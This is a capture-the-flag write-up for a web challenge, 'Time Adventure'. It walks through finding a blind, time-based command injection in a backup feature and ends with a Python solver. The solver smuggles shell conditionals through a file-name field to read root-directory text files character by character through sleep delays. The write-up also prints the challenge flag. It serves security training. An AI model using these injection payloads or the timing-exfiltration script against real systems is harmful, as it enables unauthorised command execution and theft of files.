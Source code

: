 # [WEB] Time Adventure

---

![timeadventure.png](assets/timeadventure.png)

### 10th March 2024

**Author**: `kahang`

**Difficulty**: `Medium`

**Flag**: `FIA{t1m3_1s_4n_1llus10n}`

### Description

> *It's Adventure Time... Don't forget to back up your file.*
> 

### Objective

> Identifying and exploiting Blind Command Injection Vulnerabilities in the web application.
> 

---

# Solution

## Information Gathering

- First, we need to know what this web does and what features does it have.

![Untitled](assets/Untitled.png)

- So there is a function that executes a Linux command `zip` to package the whole directory `/var/www/html` into `/tmp` with a custom file name to the backend server.
- Next, view the Source of the website and see a suspicious comment.
- Press `Ctrl + U` or `Right Click → View page source`.
    
    ![2024-03-10_14h26_26.png](assets/2024-03-10_14h26_26.png)
    

```html
<!-- Admin Note: I have saved a secret credential in a super secret text file located in the "/" folder. Please make sure to check it out. -->
```

- With this information, we can guess that there’s a text file `.txt` in **`/`** (Root Directory) that might contain interesting data with an unknown name.

## Identify Vulnerability

- Try to inject some basic **Command Injection** payload. For example `; whoami ;`

![Untitled](assets/Untitled%201.png)

- As we can see the web says that this command has been executed but there is no actual information from the server display back so we can’t know whether was it executed or not.
- Let’s verify it by sending a delay command to see if the backend server interpreting it. With the payload is `; sleep 5;`

![ezgif-5-de44b10e52.gif](assets/ezgif-5-de44b10e52.gif)

- We have noticed that after executing the command, a loading GIF appears with a 5-second delay as if the command were set to `sleep 5`.

![Untitled](assets/Untitled%202.png)

- This can be concluded as a Blind Command Injection or Time-based Command Injection.

## Crafting Payload

- By using `cat` with wild card `*` , we can read all the files within a directory without the need of knowing the file name and the `cut`command is used for taking each character one by one.

![Untitled](assets/Untitled%203.png)

- Adding a little if-else statement so that we can check if the character taken out matches or not.

![Untitled](assets/Untitled%204.png)

## Solver

- We could use the *Side Channel Attack* technique to extract data. The main idea is to "manipulate time" and grep data with the `sleep`command character-by-character from the backend.

![Untitled](assets/Untitled%205.png)

- Here is the whole script:

```python
import requests 
import time
url = "https://timeadventure.fiahackingisfun.id.vn/"
charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_+=~`[]{}|:;\"'<>,.?/"
flag = ""
# Payload: Checks if the character matches
payload = "; if [ \"$(cat /*.txt|cut -c{})\" = \"{}\" ]; then sleep 2; fi;"
while True:
    for char in charset:
        query_payload = payload.format(len(flag)+1, char)
        data = {"command": "backup", "target": query_payload}
        start_time = time.time()  # Starts recording the time
        # Sending Request
        res = requests.post(url, data=data)
        end_time = time.time()  # Stops recording the time
        real_time = end_time - start_time
        # If the entire request and response time > 2, then append the character
        if real_time > 2:
            flag += char
            break
    print(flag)
```
